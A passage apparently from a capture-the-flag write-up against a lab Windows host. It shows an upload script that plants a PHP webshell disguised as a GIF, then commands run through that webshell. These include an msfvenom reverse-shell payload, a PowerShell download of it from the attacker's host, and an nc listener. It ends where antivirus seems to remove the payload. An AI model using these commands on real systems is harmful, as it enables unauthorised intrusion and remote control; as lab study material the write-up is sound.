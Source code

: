 ```python
  'id': 'bubba',
}, data={
  'pupload': 'ignored',
}, files={
  'file': (
    'ignored.php.gif', 
    io.StringIO(PHP), 
    'image/gif',
  )
})
```

After running the script, check if it worked:

```bash
curl -s -G --data-urlencode "c=whoami" http://10.10.10.198:8080/upload/bubba.php
```

![exploit](./buff/exploit.png)

Nice! Now get a dedicated shell:

```bash
# generate the payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         -a x86 \
         -f exe \
         -o bubba.exe
# host the payload 
python3 -m http.server 7777
# listen for callback
nc -nvlp 6969
# download payload through webshell:
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.17:7777/bubba.exe','bubba.exe')"
# check upload worked
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=dir"
# execute payload
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=start /b whoami.exe"
```

However, this does not return a shell? Looking again for the uploaded `bubba.exe` payload shows that it somehow magically disappeared? This sounds like antivirus...

- https://superuser.com/questions/514232/get-antivirus-windows-commandline
